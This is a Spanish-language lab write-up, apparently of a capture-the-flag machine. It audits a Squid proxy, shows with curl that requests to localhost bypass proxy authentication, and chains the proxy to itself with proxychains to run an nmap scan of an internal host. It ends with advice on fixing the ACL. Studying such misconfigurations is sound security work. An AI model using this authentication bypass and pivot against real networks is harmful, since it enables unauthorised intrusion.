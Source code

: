 # **Análisis de Squid Proxy: De la Enumeración al Pivoting Interno**

Un servidor Squid Proxy es un objetivo de alto valor en una red. Su función como intermediario lo convierte en un punto de control que, si está mal configurado, puede ser la llave de acceso a la red interna. Esta guía cubre todo el proceso de auditoría, desde la identificación inicial hasta la explotación de malas configuraciones comunes.

## 1\. Fundamentos de Squid Proxy

#### ¿Qué es Squid?

Squid es un servidor **proxy de reenvío (forward proxy)** y **caché web**. Su propósito principal es gestionar las peticiones web de los clientes de una red interna hacia Internet.

  * **Como Proxy**: Centraliza y controla el tráfico saliente. Los usuarios no se conectan directamente a Internet; lo hacen a través de Squid.
  * **Como Caché**: Almacena copias locales de recursos web (imágenes, archivos JS/CSS), lo que acelera la navegación y ahorra ancho de banda.
  * **Puerto por Defecto**: Squid tradicionalmente escucha en el puerto **3128/TCP**.

#### El Pilar de la Seguridad en Squid: Access Control Lists (ACLs)

Las **ACLs (Listas de Control de Acceso)** son el corazón de la configuración de seguridad de Squid. Son directivas que definen "quién", "qué", "dónde" y "cuándo" se puede acceder a través del proxy.

Una configuración de ACLs consta de dos partes:

1.  **Definición de la ACL (`acl`)**: Se crea una lista con nombre que define un criterio.
      * `acl localnet src 192.168.1.0/24`: Define una ACL llamada `localnet` para cualquier petición originada en la red `192.168.1.0/24`.
      * `acl Safe_ports port 80 443`: Define una ACL para los puertos web estándar.
2.  **Aplicación de la Regla (`http_access`)**: Se permite (`allow`) o deniega (`deny`) el tráfico que coincide con una ACL. El orden es crucial: Squid procesa las reglas de arriba hacia abajo y se detiene en la primera que coincide.
      * `http_access allow localnet`: Permite el acceso si el origen coincide con la ACL `localnet`.
      * `http_access deny all`: Deniega todo lo demás (regla de "denegación por defecto").

## 2\. Fase de Enumeración: Descubriendo y Probando el Proxy

El primer paso es confirmar la presencia del proxy e intentar usarlo.

#### Comando de Verificación con `curl`

```bash
curl -I --proxy http://<IP_PROXY>:3128 http://<URL_DESTINO_EXTERNO>
```

#### Caso Práctico: Autenticación Requerida

Al lanzar una petición a través del proxy en `10.10.10.224`, observamos una respuesta estándar de seguridad.

```bash
curl -I --proxy http://10.10.10.224:3128 http://10.197.243.77
```

**Respuesta Obtenida:**

```
HTTP/1.1 407 Proxy Authentication Required
Proxy-Authenticate: Basic realm="Web-Proxy"
Via: 1.1 srv01.realcorp.htb (squid/4.11)
```

  * **Análisis**: El código `407 Proxy Authentication Required` es inequívoco. El proxy está activo y configurado para exigir credenciales. La cabecera `Via` incluso nos revela el hostname del servidor proxy: `srv01.realcorp.htb`.

## 3\. La Mala Configuración Crítica: El Privilegio de `localhost`

Muchos administradores necesitan realizar tareas de mantenimiento o monitorización en el servidor proxy desde el propio servidor. Para facilitar esto, a menudo añaden una ACL que permite el tráfico desde `localhost` sin autenticación.

**Ejemplo de una ACL Peligrosa en `squid.conf`:**

```
acl localnet src 127.0.0.1/32
http_access allow localnet
http_access allow authenticated_users
http_access deny all
```

Esta configuración permite que cualquier petición que se origine desde `127.0.0.1` (`localhost`) se salte la regla de `authenticated_users`. **Esta es la debilidad que vamos a explotar.**

### Verificando la Hipótesis del Bypass

Intentamos que el proxy se conecte a sí mismo a través de su interfaz `localhost` (`127.0.0.1`).

```bash
curl -I --proxy http://10.10.10.224:3128 http://127.0.0.1
```

**Respuesta Obtenida:**

```
HTTP/1.1 503 Service Unavailable
X-Squid-Error: ERR_CONNECT_FAIL 111
```

  * **Análisis Profundo**: Este error `503` es nuestra señal de éxito.
      * **No es un `407`**: No nos pide autenticación, lo que significa que la ACL para `localhost` ha permitido la petición.
      * **`ERR_CONNECT_FAIL 111`**: El error 111 en Linux es `Connection refused`. Squid **intentó** conectarse al puerto 80 en `127.0.0.1` (en el propio servidor proxy), pero falló porque no había ningún servicio escuchando allí.
      * **Conclusión**: Hemos confirmado que las peticiones a `localhost` bypassean la autenticación.

## 4\. Explotación: Pivoting con Proxy Chaining

El objetivo ahora es hacer que nuestra petición externa parezca que viene desde el `localhost` del servidor proxy. Para ello, encadenamos el proxy consigo mismo usando `proxychains`.

#### 1\. Configuración de `proxychains`

Editamos `/etc/proxychains4.conf` para crear una cadena.

```
[ProxyList]
# 1. Nuestra petición va primero al proxy externo.
http    10.10.10.224 3128
# 2. Luego, le decimos que la reenvíe a sí mismo, pero a través de su interfaz local.
http    127.0.0.1    3128
```

#### 2\. Lanzando el Ataque para Escanear la Red Interna

Usamos `proxychains` para tunelizar `nmap` y escanear un host de la red interna.

```bash
sudo proxychains4 -q nmap -sT -Pn -n 10.197.243.77
```

**Flujo Detallado del Ataque:**

1.  `nmap` (a través de `proxychains`) envía su tráfico al primer proxy en la lista: `http://10.10.10.224:3128`.
2.  Squid recibe la petición. `proxychains` le indica que el siguiente salto es `http://127.0.0.1:3128`.
3.  Squid procesa esta segunda petición. Desde su perspectiva, **la petición se origina en `127.0.0.1` (`localhost`)**.
4.  La ACL permisiva `http_access allow localnet` se activa. La petición de `nmap` **se aprueba sin necesidad de autenticación** y se reenvía a su destino final (`10.197.243.77`).

**Resultado:**

```
Discovered open port 53/tcp on 10.197.243.77
Discovered open port 22/tcp on 10.197.243.77
```

Hemos logrado pivotar y escanear la red interna, bypasseando por completo los controles de autenticación.

## 5\. Remediación y Buenas Prácticas

Esta vulnerabilidad es una **mala configuración**, no un fallo del software de Squid. Para solucionarlo:

1.  **Ser Específico con las ACLs de `localhost`**: Nunca se debe permitir a `localhost` acceso sin restricciones a toda la red. Si se necesita acceso administrativo, debe limitarse a destinos específicos.
    ```diff
    # MAL: Permite a localhost acceder a cualquier lugar
    - http_access allow localnet

    # BIEN: Permite a localhost acceder solo al manager de caché del proxy
    + acl manager proto cache_object
    + http_access allow localnet manager
    ```
2.  **Forzar Autenticación para `localhost`**: Si el acceso administrativo es necesario, se debe forzar la autenticación incluso para `localhost`.
3.  **Principio de Mínimo Privilegio**: Aplicar siempre una regla `http_access deny all` al final y construir las reglas de permiso de la más específica a la más general.

En resumen, un proxy Squid es un punto crítico. Auditar sus ACLs en busca de reglas demasiado permisivas, especialmente para `localhost`, puede revelar una vía directa para comprometer la red interna.